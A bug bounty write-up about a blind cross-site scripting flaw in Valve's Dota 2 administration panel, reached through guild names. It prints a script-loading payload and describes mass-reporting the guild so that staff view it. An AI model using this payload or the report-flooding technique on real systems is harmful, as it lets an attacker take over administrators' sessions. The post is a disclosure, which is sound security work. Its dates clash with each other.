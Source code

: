 ```yaml
---
comments: true
title: Gaining Access to Dota 2 Administration Panel By Exploiting In-Game Feature
date: 2022-03-31 00:00:00 +0700
category:
- bugbounty
tags:
- xss
- web
- dota2
private: false

---
```

The finding started when Dota 2 is announcing the new feature for the battle pass owner that is being able to create a guild in the game the update was around october 2020.

![Dota 2 Update ](/uploads/screen-shot-2022-03-31-at-14-03-20.png "Dota 2 Update ")

> **Guild Updates**
>
> We reintroduced Guilds during the Battle Pass, and we were happy to see how many players participated in Guilds and shared their feedback with us. We are keeping the existing Guilds, but many of the rewards received only worked in the context of the Battle Pass. We've redesigned those features so that you can enjoy playing with your guild all the time.
>
> \- [https://www.dota2.com/newsentry/3066366095799664170](https://www.dota2.com/newsentry/3066366095799664170 "https://www.dota2.com/newsentry/3066366095799664170")

Because i was an active player of the game and also bugbounty hunter, my idea just popped out to create guild with the Blind XSS Payload name, without even thingking the payload will executed somewhere on the valve systems.

![](/uploads/create-new-guild-1.png)

my first thought is wrong and the exploit was executed on the Dota 2 administration panel, which is a web application hosted on dota2.com which make me excited 🙀🙀🙀.

![](/uploads/174_total_reports.png)

This is was the admin panel looks like, rather than trying to escalating my privilege with the javascript execution i have, i just report what i found immediatelly to the [https://hackerone.com/valve](https://hackerone.com/valve "H1 Valve") team, but i've seen the admin panel is manage all the information of the game like the ip address of the currently in-game rooms, also i can possibly banned a player there, pro player information also stored there, etc is like almost everything custom game and whatever there.

![](/uploads/menus.png)

After my investigation to the vulnerability my conclusion is, the more guild registered to the system is more hard of our exploit being viewed by the staff that logged-in to the administrator panel because the table list of guild was sorted by the amount of report received to the guild, so to reproduce it for the second time i was using this steps below:

* Create guild with a blind xss payload as the name `'"><script src=//domain></script>`
* Report the guild name multiple times, until you feel the report amount is enough to make our guild listed on the first page.
* Profit! `alert(1)`

![](/uploads/reporting-1.png)

There is 3 form of report that can a guild get, `report guild name`, `report guild logo`, `report guild tag` and all of the report amount is combined to `total_reports` that will used as the sorted value when the `datatable` is loaded on the application.

I was automating this process to login to the game and report my guild repeatedly to get the amount of `total_reports` i want to get my guild on the first page of the `datatable` since the table is configured to only show 50 rows for each page, to get this was not hard since i was testing when the feature is just released couple days ago.

### Key Takeaways

* Keep in mind of your input might end up anywhere that you not even expect, we never know ¯\\_(ツ)_/¯ .

That is all for this writeup folks, see you on the next writeup :salute: .

***

Jun 12 2020: Reported  
Jun 12 2020: Severity Changed Crit -> High ( I don't get it actually,  the team said my xss need user interaction but i don't think that make a)  
Jun 16 2020: Triaged  
Sept 8 2020: Severity Changed High -> Med ( Based on all the information and actions that i can do there, this just dissapointing 😪 )  
Sept 8 2020: Rewarded 750USD + 150USD Bonus

Proof(UNDISCLOSED yet): [https://hackerone.com/reports/896281](https://hackerone.com/reports/896281 "https://hackerone.com/reports/896281")
